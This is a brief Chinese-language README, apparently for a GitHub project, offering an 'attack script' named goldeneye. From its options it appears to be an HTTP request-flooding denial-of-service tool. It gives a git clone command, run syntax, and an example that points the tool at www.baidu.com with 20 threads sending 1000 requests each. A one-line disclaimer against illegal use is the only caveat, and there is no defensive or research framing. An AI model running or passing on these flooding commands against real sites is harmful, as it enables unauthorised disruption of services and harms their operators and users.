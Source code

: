 # 1.介绍
这是一个攻击脚本(国外)

# 2.注意
请不要做违法的事情

# 3.安装
此版本需要python2.7.X

 ``` git clone https://github.com/xiazhongdan/goldeneye.git  ```
 
 解压goldeneye.zip
 
 # 4.使用
  ``` python2 xgoldeneye.py  url -w 人数 -s 请求数  ```
 
 # 5.例如
 python2 xgoldeneye.py  www.baidu.com -w 20 -s 1000
 
 20线程每个线程请求1000次
